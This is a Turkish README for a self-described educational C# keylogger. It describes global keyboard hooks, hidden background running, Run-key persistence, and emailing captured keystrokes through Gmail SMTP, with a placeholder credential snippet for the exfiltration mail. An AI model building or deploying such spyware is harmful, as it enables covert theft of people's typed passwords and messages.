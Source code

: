 PROJE TAMAMEN EĞİTİM AMAÇLIDIR!!!!
 # C# Eğitim Amaçlı Keylogger Projesi

Bu proje, Visual Studio ortamında C# dili kullanılarak geliştirilmiş, *tamamen eğitim ve araştırma amaçlı* bir keylogger uygulamasıdır. Projenin temel amacı, global klavye olaylarının (hooks) nasıl yakalandığını, arka plan işlemlerinin nasıl yönetildiğini, SMTP ile e-posta gönderimini ve Windows Registry (Kayıt Defteri) ile başlangıçta çalışma ayarlarının nasıl yapıldığını göstermektir.


---

## ⚠ ÖNEMLİ UYARI VE YASAL SORUMLULUK REDDİ

> Bu yazılım *yalnızca eğitim ve siber güvenlik farkındalığı yaratma amacıyla geliştirilmiştir.* Başka bir kişinin bilgisi ve rızası olmadan bilgisayarına bu tür bir yazılım yüklemek, kişisel verilerin gizliliğini ihlal eder. Bu eylem, TCK dahil olmak üzere birçok ülkenin yasalarına göre *yasa dışı olup ciddi hukuki ve cezai sonuçlar doğurabilir.*
>
> Bu kodun veya uygulamanın yasa dışı, kötü niyetli veya etik olmayan amaçlarla kullanılmasından doğacak hiçbir yasal sorumluluk kabul edilmemektedir. *Bu projeyi kullanarak tüm sorumluluğu üstlenmiş olursunuz.* Lütfen bu aracı sadece kendi sisteminizde, öğrenme ve test amacıyla kullanın.

---

## 🎯 Projenin Eğitim Hedefleri

*   *Global Klavye Kancaları (Hooks):* HootKeys gibi üçüncü parti bir kütüphane kullanarak sistem genelindeki klavye olaylarını nasıl dinleyeceğimizi öğrenmek.
*   *Veri Biriktirme ve Gönderme:* Yakalanan tuş vuruşlarını bir değişkende biriktirip belirli bir limite ulaşıldığında bu veriyi ağ üzerinden (e-posta ile) nasıl göndereceğimizi anlamak.
*   *SMTP Protokolü Kullanımı:* C# System.Net.Mail kütüphanesi ile Gmail gibi servisler üzerinden nasıl e-posta gönderileceğini kavramak.
*   *Windows'ta Kalıcılık (Persistence):* Bir uygulamanın, Windows Kayıt Defteri'ne (Registry) kendini ekleyerek her başlangıçta otomatik olarak nasıl çalıştırılabileceğini öğrenmek. Bu, siber güvenlikte "kalıcılık mekanizmaları"nı anlamak için önemli bir konsepttir.
*   *Arka Plan Uygulaması:* Bir Windows Forms uygulamasının görsel bir arayüz olmadan arka planda nasıl çalışabileceğini görmek.

---

## ✨ Projenin Özellikleri

*   *Geniş Karakter Desteği:* Standart alfanümerik karakterlerin yanı sıra Türkçe karakterleri (ğ, ü, ş, i, ö, ç), rakamları ve temel noktalama işaretlerini yakalar.
*   *Caps Lock Durum Takibi:* Caps Lock tuşunun durumuna göre büyük/küçük harf ayrımını doğru bir şekilde yapar.
*   *Veri Gönderimi:* Yakalanan tuş vuruşları 50 karaktere ulaştığında, belirlenen bir e-posta adresine logları otomatik olarak gönderir.
*   *Başlangıçta Otomatik Çalışma:* Uygulama ilk kez çalıştığında, kendini Windows Run kayıt defteri anahtarına ekleyerek sistem her yeniden başladığında otomatik olarak çalışır.

---

## 🛠 Kurulum ve Çalıştırma

### Gereksinimler
*   *IDE:* Visual Studio 2019 veya daha yeni bir sürümü
*   *.NET Sürümü:* .NET Framework 4.5+
*   *Bağımlılık:* HootKeys kütüphanesi.

### Adımlar
1.  *Projeyi Klonlayın veya İndirin:*
    bash
    git clone https://github.com/[Zeyneppceelik]/[Zeyneppceelik/zeynep-elik_proje2].git 
    

2.  *Projeyi Visual Studio'da Açın:*
    *   Proje klasöründeki .sln uzantılı dosyayı açın.

3.  *Bağımlılığı Yükleyin:*
    *   Proje, HootKeys adlı bir kütüphane kullanmaktadır. Bu kütüphaneyi projenize eklemeniz gerekir.
    *   Visual Studio'da Tools > NuGet Package Manager > Package Manager Console yolunu izleyin.
    *   Açılan konsola aşağıdaki komutu yazıp Enter'a basın:
      powershell
      Install-Package HootKeys
      

4.  *E-posta Bilgilerini Yapılandırın (ÇOK ÖNEMLİ):*
    *   Form1.cs dosyasını açın ve Mail() fonksiyonunu bulun.
    *   Aşağıdaki satırlardaki e-posta ve şifre bilgilerini *kendi bilgilerinizle* değiştirin:
      csharp
      istemci.Credentials = new System.Net.NetworkCredential("SENDER-EMAIL@gmail.com", "YOUR-APP-PASSWORD");
      // ...
      msj.From = new MailAddress("SENDER-EMAIL@gmail.com");
      msj.To.Add("RECEIVER-EMAIL@gmail.com");
      
    *   *Güvenlik Notu:* Gmail, artık standart şifrelerin bu tür uygulamalarda kullanılmasına izin vermemektedir. Bunun yerine Google Hesabınızda *"Uygulama Şifreleri" (App Passwords)* oluşturmanız gerekmektedir.

5.  *Derleyin ve Çalıştırın:*
    *   Projeyi derlemek için F5 tuşuna basın veya Debug > Start Debugging menüsünü kullanın.
    *   Uygulama çalışmaya başladığında arka plana geçecektir. Klavye girişleriniz kaydedilecek ve 50 karaktere ulaştığında belirttiğiniz e-posta adresine gönderilecektir.

---

## ⚙ Kodun Teknik Açıklaması

*   **TuslariDinle():** Bu metot, globalKeyboardHook nesnesini başlatır ve dinlenmesi istenen tüm tuşları (Keys enum'ı) HookedKeys listesine ekler. Son olarak KeyDown olayına TusKombinasyonu metodunu atar.
*   **TusKombinasyonu(object sender, KeyEventArgs e):** Bu, her tuşa basıldığında tetiklenen ana metottur.
    *   Gelen e.KeyCode değerini kontrol ederek basılan tuşu tespit eder.
    *   if/else blokları ile bu tuşun karakter karşılığını log adlı string değişkene ekler.
    *   number sayacını artırır ve sayaç 50'yi geçtiğinde Mail() metodunu çağırarak logları gönderir ve değişkenleri sıfırlar.
*   **Mail():** System.Net.Mail.SmtpClient sınıfını kullanarak, önceden tanımlanmış kimlik bilgileriyle smtp.gmail.com sunucusu üzerinden e-posta gönderir.
*   **Form1_Load(object sender, EventArgs e):** Uygulama ilk yüklendiğinde çalışır.
    *   Control.IsKeyLocked(Keys.CapsLock) ile Caps Lock'un başlangıç durumunu kontrol eder.
    *   Microsoft.Win32.Registry sınıfını kullanarak HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run anahtarına erişir ve uygulamanın yürütülebilir dosya yolunu (Application.ExecutablePath) bu anahtara ekler. Bu sayede uygulama kalıcı hale gelir.

---

## 📜 Lisans

Bu proje MIT Lisansı altında dağıtılmaktadır. 

YOUTUBE VİDEO LİNKİ : https://youtu.be/Wc3LSWdwwzw?si=-tiGLEcYj69-0z_o
